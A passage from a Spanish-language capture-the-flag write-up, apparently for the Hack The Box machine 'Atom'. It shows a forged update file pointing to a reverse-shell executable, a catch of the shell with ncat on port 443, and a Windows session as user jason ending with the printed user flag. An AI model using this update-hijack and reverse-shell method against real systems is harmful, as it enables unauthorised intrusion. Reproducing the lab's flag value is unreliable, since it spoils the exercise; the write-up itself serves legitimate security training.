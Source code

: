 ```bash
❯ sha512sum r’everse.exe
d9d4eaac33d3ee234af8015c73198541b82a558877d27d7d03cc6bda270c02e001cfc2daafc050256c29974c7a278317dca0d71804668dab00d539559a30de31  r’everse.exe
```

El archivo nos quedaria de la siguiente forma:

```bash
version: 1.2.3
path: r’everse.exe 
sha512: d9d4eaac33d3ee234af8015c73198541b82a558877d27d7d03cc6bda270c02e001cfc2daafc050256c29974c7a278317dca0d71804668dab00d539559a30de31
```
Procedemos a subirlo en una de las carpetas `client`, compartimos el ejecutable desde nuestra maquina con python y nos ponemos en escucha en el puerto establecido con `ncat`. 


Recibimos la conexión como el usuario `jason`.

```bash
nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.237.
Connection from 10.10.10.237:54130.
Microsoft Windows [Version 10.0.19042.906]
(c) Microsoft Corporation. All rights reserved.

whoami
whoami
atom\jason
```

Ahora podemos dirigirnos a su directorio personal y leer la primera flag `user.txt`.

```cmd
cd C:\Users\jason\Desktop

dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9793-C2E6

 Directory of C:\Users\jason\Desktop

04/02/2021  10:29 PM    <DIR>          .
04/02/2021  10:29 PM    <DIR>          ..
03/31/2021  02:09 AM             2,353 heedv1.lnk
03/31/2021  02:09 AM             2,353 heedv2.lnk
03/31/2021  02:09 AM             2,353 heedv3.lnk
08/10/2023  05:27 PM                34 user.txt
               4 File(s)          7,093 bytes
               2 Dir(s)   5,622,317,056 bytes free

type user.txt
type user.txt
5dcbc34fb2b0acaf6f9262acb7ec960e
```
